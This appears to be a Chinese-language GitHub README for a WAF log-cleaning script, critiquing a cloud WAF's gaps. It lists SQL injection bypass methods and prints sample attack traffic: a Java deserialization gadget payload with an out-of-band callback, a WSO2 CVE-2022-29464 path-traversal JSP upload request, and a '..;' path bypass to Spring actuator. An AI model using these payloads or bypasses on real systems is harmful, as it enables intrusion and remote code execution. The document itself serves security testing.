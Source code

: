 # waf-log-clean-data-script
存放在工作为了从大量日志中清洗出有用的数据的脚本
# 移动云waf
不好用
1.无法设置全局封禁ip
2.SQL注入使用内联注释可绕过,存在MD5编码绕过，CHR()函数构造绕过，以及最普通的SQL注入存在概率放行
3.数据包X-Forwarded-For:IP0,IP1,IP2... IP0为攻击者真实IP，移动云waf显示为IP2。
4.反序列化攻击流量paylaodbase64编码，能检测但不阻拦 

样本
```
bundle={{concat(url_encode(base64(aes_cbc(base64_decode(generate_java_gadget("dns", "http://{{reverse.url}}", "base64")), base64_decode("Dmmjg5tuz0Vkm4YfSicXG2aHDJVnpBROuvPVL9xAZMo="), base64_decode("QUVTL0NCQy9QS0NTNVBhZA==")))), '$2')}}
```

5.文件上传有概率，检测但不阻拦

样本:
```
POST /fileupload/toolsAny HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Kubuntu; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Connection: close Content-Length: 375
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311
Accept-Encoding: gzip
X-Forwarded-For:  -----------------------------250033711231076532771336998311
Content-Disposition: form-data;

name="../../../../repository/deployment/server/webapps/authenticationendpoint/2yjbn94qnqeqdikvv30zcavar2a.jsp";filename="test.jsp" Content-Type: application/octet-stream <% out.print("WSO2-RCE-CVE-2022-29464"); %> -----------------------------250033711231076532771336998311--
```

6.使用`..;`可以进行被绕过
样本:

```
/aspnet_client/actuator/aspnet_client/actuator/env/..;/..;/..;//actuator/env
```
